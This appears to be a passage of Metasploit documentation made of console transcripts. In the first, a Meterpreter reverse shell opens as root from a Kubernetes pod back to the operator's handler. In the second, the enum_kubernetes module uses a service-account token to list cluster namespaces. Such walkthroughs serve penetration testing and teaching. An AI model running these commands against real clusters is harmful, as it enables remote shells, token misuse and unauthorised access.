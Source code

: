 ```msf
[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Sending stage (39736 bytes) to 192.168.159.31
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.31:59234) at 2021-10-01 09:55:00 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : thinkphp-67f7c88cc9-tgpfh
OS           : Linux 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021
Architecture : x64
Meterpreter  : python/linux
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/kubernetes/exec) >
```

`msf
msf6 > search kubernetes
`

`
use auxiliary/cloud/kubernetes/enum_kubernetes
run session=-1
`

`msf
msf6 > use cloud/kubernetes/enum_kubernetes
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > set RHOST https://kubernetes.docker.internal:6443
RHOST => https://kubernetes.docker.internal:6443
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > set TOKEN eyJhbGciO...
TOKEN => eyJhbGciO...
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > run
[*] Running module against 127.0.0.1

[+] Kubernetes service version: {"major":"1","minor":"21","gitVersion":"v1.21.2","gitCommit":"092fbfbf53427de67cac1e9fa54aaa09a28371d7","gitTreeState":"clean","buildDate":"2021-06-16T12:53:14Z","goVersion":"go1.16.5","compiler":"gc","platform":"linux/amd64"}
[+] Enumerating namespaces
Namespaces
==========

  #  name
  -  ----
  0  default
  1  kube-node-lease
  2  kube-public
  3  kube-system
  4  kubernetes-dashboard

... etc ...
`
